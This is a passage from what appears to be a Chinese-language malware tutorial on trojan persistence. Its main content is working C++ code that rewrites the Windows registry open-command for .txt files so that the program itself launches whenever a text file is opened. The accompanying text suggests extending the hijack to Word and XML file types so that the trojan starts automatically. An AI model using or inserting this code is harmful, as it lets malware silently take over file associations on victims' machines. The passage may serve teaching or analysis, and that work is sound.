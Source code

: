 ```cpp
int ModifyRegKey()
{
	HKEY hKey = NULL;
	if (RegOpenKeyEx(HKEY_CLASSES_ROOT, TEXT("txtfile\\shell\\open\\command"), 0, KEY_WRITE, &hKey) != ERROR_SUCCESS)
		return 1;

	int nRet = 0;
	TCHAR strPath[260] = { 0 };
	GetModuleFileName(NULL, strPath, 260);
	wsprintf(strPath, TEXT("%s %%1"), strPath);
	if (RegSetKeyValue(hKey, NULL, NULL, REG_EXPAND_SZ, strPath, lstrlen(strPath)) != ERROR_SUCCESS)
		nRet = 1;
	else
		nRet = 0;
	RegCloseKey(hKey);
	return nRet;
}

```

#### 其它类型文件

##### xml

> 在手动修改注册表的基础上，修改为篡改其他类型文件的打开方式，如 word 文档等，实现木马自启动。

我们在注册表中查看，我们发现xml格式文档不错，看起来很勇。

![image-20220520164135157](恶意代码.assets/image-20220520164135157.png)
